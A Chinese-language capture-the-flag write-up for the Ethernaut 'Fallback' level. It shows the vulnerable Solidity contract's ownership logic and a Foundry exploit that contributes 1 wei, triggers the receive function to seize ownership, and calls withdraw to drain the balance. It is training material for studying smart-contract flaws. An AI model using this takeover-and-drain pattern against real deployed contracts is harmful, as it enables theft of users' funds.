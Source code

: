 # Fallback

## 题目描述

[原题链接](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

通过这关你需要

1. 获得这个合约的所有权
2. 把他的余额减到0

## 运行

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境后，于本项目下执行下列命令：

```sh
$ cd WTF-CTF

$ forge test -C src/Ethernaut/Fallback -vvvvv
```

## 功能简述

1. 合约中有两个地方可以替换owner

    contribute函数

    ```solidity
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if(contributions[msg.sender] > contributions[owner]) {
          owner = msg.sender;
        }
      }
    ```

    receive函数

    ```solidity
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
      }
    ```

2. 使用contribute函数进行攻击，需要我们比owner还要有钱

    查询合约owner有多少余额，1000贡献（1000ETH）

    ```solidity
    constructor() {
    	owner = msg.sender;
    	contributions[msg.sender] = 1000 * (1 ether);
    }
    ```

    虽然我们可以使用Foundry进行钞能力攻击，但......

3. 使用receive函数进行攻击，需要我们给合约转一笔钱并且还需要我们在合约中的余额大于0。所以先给合约贡献一点钱，再给合约转一笔钱。

    ```solidity
    Fallback(payable(fallBack)).contribute{value: 1}();
    
    (bool success, bytes memory data) = payable(fallBack).call{value: 1}("");
    if (!success) {
    	revert(string(data));
    }
    ```

    即可获取到合约的owner。

    ```solidity
    address owner = Fallback(payable(fallBack)).owner();
    assertEq(owner, address(this));
    ```

4. 最后把合约中的钱转走

    ```solidity
    Fallback(payable(fallBack)).withdraw();
    ```

5. 提交合约实例，完成目标。

